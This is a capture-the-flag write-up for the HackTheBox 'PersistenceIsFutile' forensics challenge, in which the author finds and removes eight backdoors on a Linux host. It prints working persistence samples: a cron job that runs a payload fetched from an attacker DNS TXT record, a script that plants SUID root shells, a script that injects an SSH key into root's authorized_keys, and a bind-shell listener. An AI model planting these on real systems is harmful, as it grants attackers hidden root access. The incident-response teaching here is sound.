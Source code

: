 

##
#
https://0xv1n.github.io/posts/persistenceisfutile/
#
##

HackTheBox | PersistenceIsFutile
0xv1n included in htb challenges
 2021-07-31  1545 words   8 minutes 

Challenge Description:

Hackers made it onto one of our production servers 😅. We’ve isolated it from the internet until we can clean the machine up. The IR team reported eight difference backdoors on the server, but didn’t say what they were and we can’t get in touch with them. We need to get this server back into prod ASAP - we’re losing money every second it’s down. Please find the eight backdoors (both remote access and privilege escalation) and remove them. Once you’re done, run /root/solveme as root to check. You have SSH access and sudo rights to the box with the connections details attached below.
Forensic Analysis

So to get started with this challenge, I used two resources to guide me along the way. Additionally, we have a binary /root/solveme that will tell us our progress as we go along, so run it frequently to get status updates.:

    https://linuxhint.com/determine_if_linux_is_compromised/
    http://web.archive.org/web/20080109214340/http://www.cert.org/tech_tips/intruder_detection_checklist.html

Running Processes

By running ps auxf we can see all running processes on a Linux system, the user they’re running under, their PID (process id), and the command that was used to spawn the process. Here is the output:

/images/htb/challenges/forensics/persistenceisfutile/ps.png

That connectivity check process looks interesting. We can’t cat the file contents as user but we have root privileges through sudo.

/images/htb/challenges/forensics/persistenceisfutile/conn.png

This is clearly a background process to pop a reverse shell to 172.17.0.1 on port 443. So we’re going to remove this file rm -rf /var/lib/private/connectivity-check and then kill the process using the PID from ps auxf. I also am going to grep for “connectivity-check” to see if there are any other references on the file system. Sure enough, it’s in another location as well (so we need to remove this one as well):

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# grep -Ril "connectivity-check" /etc
/etc/update-motd.d/30-connectivity-check

When I went to get the PID, I noticed something new popped up in the running processes:

\_ sudo su -
  \_ su -
    \_ -bash
      \_ alertd -e /bin/bash -lnp 4444

That’s interesting, it looks like when I switched to the root user it spawned a new process of alertd and the syntax looks eerily similar to what we’d use to spawn a netcat listener on port 4444. I have no idea where that binary is though, but we can find it by running find / -name "alertd" and when we do we see it’s in /usr/bin/alertd. For now I’m just going to remove that file - but because it spawned when I loaded a shell as root, I have a feeling there’s something in our shell init script that’s doing that.
Alertd

To easily find where this binary is getting called from, we can grep for reference to it. If it’s spawning with shells, then it’s going to be in the shell rc file in either /root (the home directory for the root user) or /home/user.

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# grep -Ril "alertd" /root
/root/.bashrc

Knowing that we have a bad .bashrc, we can actually just overwrite it with the skeleton .bashrc stored in /etc/skel. To do that we simply run cp /etc/skel/.bashrc /root/.bashrc and we’ll repeat the process for the user account since for some reason their .bashrc is actually “owned” by root.
Cronjobs
user

We can see scheduled cron jobs by running crontab -l and sure enough we find something interesting:

user@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~$ crontab -l
* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"

I spy a DNS TXT Beacon!

dig is a command used to query DNS records and from Cloudflare’s site, we see that we can enter arbitrary text into DNS TXT records. This particular cronjob is an example of using DNS TXT records to execute a payload onto a host. The way it works is, the attacker has a malicious DNS server in the wild and when the TXT record gets queried by a resolver, it will grab whatever is in that TXT record and use it as an argument for the sh -c command. It’s safe to assume that in this scenario, the TXT record of “imf0rce.htb” is storing a malicious payload. So, we can go ahead and remove this cron job by running crontab -e and deleting that entry. Since we found one cronjob on the user account, we should also look through the root account to see if there are any evil crons.
root

Running crontab -l as root didn’t show anything, but that doesn’t necessarily mean there aren’t malicious cron jobs. To verify this we can navigate to /etc and look through the various cron.* folders. There’s a few folders, but using some command line voodoo we can look through all them quickly by using a recursive ls on a blob like this:

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:/etc# ls -R ./cron.*
./cron.d:
anacron  e2scrub_all  popularity-contest

./cron.daily:
0anacron  access-up  apt-compat  bsdmainutils  dpkg  logrotate  man-db  popularity-contest  pyssh

./cron.hourly:

./cron.monthly:
0anacron

./cron.weekly:
0anacron  man-db

There are a few things that I don’t recognize from my familiarity with linux: access-up and pyssh. So let’s investigate those further.
access-up

#!/bin/bash
DIRS=("/bin" "/sbin")
DIR=${DIRS[$[ $RANDOM % 2 ]]}

while : ; do
    NEW_UUID=$(cat /dev/urandom | tr -dc 'a-z' | fold -w 6 | head -n 1)
    [[ -f "{$DIR}/${NEW_UUID}" ]] || break
done

cp /bin/bash ${DIR}/${NEW_UUID}
touch ${DIR}/${NEW_UUID} -r /bin/bash
chmod 4755 ${DIR}/${NEW_UUID}

This is a really cool (and by “cool”, I of course mean DANGEROUS) bash script. Here’s what it’s doing line by line. First we define “DIRS” as either /bin or /sbin. Then we’re going to define another variable DIR that is going to divide a random number by 2, and if it has a remainder (i.e. it’s odd) we’ll use /sbin and if has no remainder we use /bin (2 % 2 = 0, 3 % 2 = 1). After that, it generates a random number via /dev/urandom and then converts the random number to alphabetic characters (a-z). So let’s say it generates the number “21312566”, then it will convert it to something like “folofwtt” then use fold -w 6 to take the first 6 characters, leaving us with “folofw” as our potential file name.

Once it’s generated a file name, it runs cp /bin/bash ${DIR}/${NEW_UUID} to essentially copy the bash shell into whatever DIR it landed on (/bin or /sbin) and then naming it according to the random name that was generated. So in my example, /bin/folofwtt actually is the same binary as /bin/bash. SPOOKY. The very last line is the most important part of this little script though. chmod 4755 is a huge red flag because the 4 means we’re giving this binary SetUID permission… aka root permission!. So if I, Joe Hacker, was to execute the random binary we generated (/bin/folofwtt) it would actually spawn an instance of /bin/bash owned by the user root. Yeah… big yikes here, so we DEFINITELY want to delete this script.
pyssh

#!/bin/sh

VER=$(python3 -c 'import ssh_import_id; print(ssh_import_id.VERSION)')
MAJOR=$(echo $VER | cut -d'.' -f1)

if [ $MAJOR -le 6 ]; then
    /lib/python3/dist-packages/ssh_import_id_update
fi

This script looks to be using a python module called ssh_import_id_update to do something. Investigating this file further:

#!/bin/bash
KEY=$(echo "c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUhSZHg1UnE1K09icTY2Y3l3ejVLVzlvZlZtME5DWjM5RVBEQTJDSkRxeDEgbm9ib2R5QG5vdGhpbmcK" | base64 -d)
PATH=$(echo "L3Jvb3QvLnNzaC9hdXRob3JpemVkX2tleXMK" | base64 -d)

/bin/grep -q "$KEY" "$PATH" || echo "$KEY" >> "$PATH"

This script is adding whatever KEY is to PATH. They’re base64 encoded so let’s just run the commands and see what’s inside: /images/htb/challenges/forensics/persistenceisfutile/key.png /images/htb/challenges/forensics/persistenceisfutile/path.png

So this script is being used to add a public SSH key to the root user’s authorized_keys file. Meaning they’ll be able to SSH in as root whenever they want. So we’re gonna go ahead and remove this script and the cronjob that calls it. And with that, we’ve cleared all the potentially nasty cron jobs. Last thing in this step is to remove that SSH key from our authorized_keys file.
Binaries with SetUID permissions

Our next step is going to be to take a look at any binaries that are owned by root and also have SetUID permissions. To do this, we can use the command find / -user root -perm -4000 -print. Remember earlier, we found a script that generates binaries as root with 6-character names:

/images/htb/challenges/forensics/persistenceisfutile/setuid.png

We’ll go ahead and remove the suspicious binaries, and move on for now.
Checking users with Root Privilege

Next thing we want to do is go to /etc/passwd and /etc/shadow to see if there are any suspicious user accounts with elevated privilege and shell access.

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# cat /etc/passwd | grep -i "/bash"
root:x:0:0:root:/root:/bin/bash
gnats:x:41:0:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/bash
user:x:1000:1000::/home/user:/bin/bash

Gnats are annoying

I’m interested in that gnats user:

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# groups gnats
gnats : root

I’m pretty sure a “bug reporting” service doesn’t need root privilege or shell access, so let’s change that. We can change it’s shell to disable logins by running usermod -s /usr/sbin/nologin gnats. After that, we can change it’s group so it’s not a part of root by running usermod -g <groupid>. Doing these two things (removing login capability, and removing root gid) should be sufficient to lock down that account for now.
Flag

Between each step we can run /root/solveme to check our progress, and at this point it looks like we’re done.

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# /root/solveme
Issue 1 is fully remediated
Issue 2 is fully remediated
Issue 3 is fully remediated
Issue 4 is fully remediated
Issue 5 is fully remediated
Issue 6 is fully remediated
Issue 7 is fully remediated
Issue 8 is fully remediated

Congrats: HTB{.........}

